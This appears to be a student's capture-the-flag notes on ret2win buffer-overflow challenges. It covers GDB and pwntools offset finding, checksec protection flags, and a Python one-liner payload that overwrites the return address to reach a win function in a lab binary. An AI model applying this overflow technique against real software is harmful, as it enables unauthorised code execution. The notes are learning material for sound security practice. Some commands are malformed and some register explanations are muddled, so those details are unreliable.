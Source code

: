 ### N o T e S

---

In ret2win, we need to execute the win function to get the flag by overwriting the EIP.

```py
| Finding the offset using GDB for the return address |
- file <filename>
- info functions
- cyclic 100
- run and check the RIP register which is the instruction pointer
- cyclic -l <the four characters found>
```

python3 -c 'print("A"*offset+"return address")' > payload
./ret2win < payload

Find the offset we use the value in `RSP` register.

- First two steps, add permissions using chmod  +x file name.  
- Then, check the options and protections enabled using checksec --file.  
- Aim of the pwn challenge is generally to overflow the buffer and overwrite the return address.
- It redirects the program towards a function which outputs the flag.

#### Things to do in classic ret2win :

- The padding until we begin to overwrite the return pointer (EIP)
- What value we want to overwrite EIP to

```py
1. Finding the padding
--> Trial and error, binary search. Sent arbitrary characters until u get SEG fault for the first time.

2. Find the address, using objdump or db and dc in radare. Form the exploit using py script and pwntools.
```

```
```py
NO PIE - It means the executable file and server have the same coded source file and won't change each time the program loads.
NX ENABLED - We cannot inject our own shellcode to the stack and execute it.
NO STACK CANARY - We can overflow the buffer and there won't be any canaries.
PARTIAL RELRO - read and write availability.
```

---

Use Ghidra and GDB. 

```py
PUTS - It displays some output just like printf.
GETS - It reads some data just like scanf.

Finding the offset : 
1. Generate a cyclic pattern : cyclic 100.
2. The first four bytes in RSP is the offset.
3. Use cyclic -l <four bytes> to find the actual offset.
4. Use the offset to overflow the function and return statement.
```

---


```py
Steps : 
disassemble flag
(assume offset is 40)

We use the memory address of the first function in disassemble flag
(assume it is 0x0000000000401196)

python3 - C 'print "A" * 40 + "\x96\x11\x40\x00\x00\x00\x00\x00" ' 

(add this to a file payload)
python3 - C 'print "A" * 40 + "\x96\x11\x40\x00\x00\x00\x00\x00" ' > payload

echo "Fake_flag" > flag.txt
(Dummy flag for local file)

Now, run < payload 
(fake_flag will be printed)

./zoom2win < payload
fake_flag Segmentation fault

Now when we run the netcat command with the payload we get our flag.
```

---

Thank you

